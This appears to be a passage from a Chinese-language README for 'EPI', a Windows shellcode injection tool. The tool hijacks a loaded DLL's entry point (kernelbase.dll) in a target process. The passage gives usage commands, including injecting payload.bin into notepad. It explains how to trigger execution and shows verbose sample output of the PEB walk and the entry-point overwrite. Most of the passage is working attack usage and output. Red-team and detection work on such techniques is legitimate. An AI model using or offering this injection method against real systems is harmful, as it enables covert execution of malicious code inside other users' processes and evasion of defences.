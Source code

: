 ### 执行

#### 1. Threadless 模式（推荐）

```cmd
# 基本用法 - 等待自然触发
build\epi.exe <PID> <shellcode文件>

# 示例：注入到记事本
start notepad
tasklist | findstr notepad  # 获取 PID (如 1234)
build\epi.exe 1234 payload.bin

# 触发执行：在记事本中执行操作
# - 点击 "文件" -> "打开"（创建新线程）
# - 点击 "取消"（销毁线程）

# 输出示例：
# ======================================
#   EPI - DLL 入口点劫持注入
# ======================================
#
# [1] 打开目标进程
#     [+] 成功打开进程 PID=1234
#
# [2] 分配内存并写入 Shellcode
#     [+] 已分配内存：0x00000123ABCD0000（大小：296 字节）
#     [+] Shellcode 已写入（296 字节）
#
# [3] 劫持 DLL 入口点
#     [*] 目标 DLL：kernelbase.dll
#
# [+] 目标进程 PEB 地址：0x00007FFFFFFF0000
# [+] PEB_LDR_DATA 地址：0x00007FFFFFFF1234
# [+] 已加载模块链表地址：0x00007FFFFFFF2000
#
# [*] 遍历已加载模块链表...
#     [*] DLL: ntdll.dll                   (Base: 0x00007FF8B2C00000, EntryPoint: 0x00007FF8B2C12000)
#     [*] DLL: kernel32.dll                (Base: 0x00007FF8B0A00000, EntryPoint: 0x00007FF8B0A14000)
#     [*] DLL: kernelbase.dll              (Base: 0x00007FF8AE800000, EntryPoint: 0x00007FF8AE812000)
#
# [+] 找到目标 DLL：kernelbase.dll
#     [*] DllBase：0x00007FF8AE800000
#     [*] 原始 EntryPoint：0x00007FF8AE812000
#     [*] 新 EntryPoint（Shellcode）：0x00000123ABCD0000
# [+] EntryPoint 已成功劫持！
#
# [*] 等待新线程创建或线程退出时自动触发...
# [*] 提示：在目标进程中执行操作（如打开文件、点击按钮）来创建新线程
#
# [+] EPI 注入成功！
# [!] 注意：请勿关闭目标进程，否则 shellcode 将无法执行
```

